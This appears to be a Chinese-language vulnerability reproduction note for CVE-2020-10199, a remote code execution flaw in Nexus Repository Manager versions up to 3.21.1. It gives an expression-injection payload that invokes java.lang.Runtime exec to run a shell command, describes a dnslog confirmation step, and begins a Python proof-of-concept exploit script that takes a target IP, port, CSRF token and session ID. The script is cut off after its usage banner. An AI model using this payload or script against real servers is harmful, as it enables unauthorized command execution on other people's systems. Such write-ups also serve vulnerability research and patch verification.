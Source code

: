 ### （2）尝试创建文件

    $\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('touch /tmp/success')}

![2.png](resource/(CVE-2020-10199)NexusRepositoryManager远程代码执行漏洞/media/rId27.png)回到漏洞环境检查，文件夹success创建成功![3.png](resource/(CVE-2020-10199)NexusRepositoryManager远程代码执行漏洞/media/rId28.png)

### （3）dnslog测试

![4.png](resource/(CVE-2020-10199)NexusRepositoryManager远程代码执行漏洞/media/rId30.png)漏洞存在![5.png](resource/(CVE-2020-10199)NexusRepositoryManager远程代码执行漏洞/media/rId31.png)

### poc&exp

> 影响版本 \<= 3.21.1
> 需要用户登录后提供csrf和sessionid（登录成功后从浏览器复制），代码执行目前无法回显

#### poc

    +----------------------------------------------------------------------------------------------------------+
    + DES: by zhzyker as https://github.com/zhzyker/exphub                                                     +
    +      CVE-2020-10199 need username & password                                                             +
    +----------------------------------------------------------------------------------------------------------+
    + USE: python3 <filename> <ip> <port> <csrf> <sessionid>                                                   +
    + EXP: python3 cve-2020-10199_poc.py 1.1.1.1 8081 0.9567822851573897 edfca15e-c721-45e2-bdef-e8b3c6364ddb  +
    + VER: Nexus Repository Manager OSS/Pro version <= 3.21.1                                                  +
    +----------------------------------------------------------------------------------------------------------+

> Nexus Repository Manager 3 远程命令执行漏洞

    #!/usr/bin/python3
    # -*- coding:utf-8 -*-
    # author:zhzyker
    # from:https://github.com/zhzyker/exphub

    import sys
    import requests
    import json

    if len(sys.argv)!=5:
        print('+----------------------------------------------------------------------------------------------------------+')
        print('+ DES: by zhzyker as https://github.com/zhzyker/exphub                                                     +')
        print('+      CVE-2020-10199 need username & password                                                             +')
        print('+----------------------------------------------------------------------------------------------------------+')
        print('+ USE: python3 <filename> <ip> <port> <csrf> <sessionid>                                                   +')
        print('+ EXP: python3 cve-2020-10199_poc.py 1.1.1.1 8081 0.9567822851573897 edfca15e-c721-45e2-bdef-e8b3c6364ddb  +')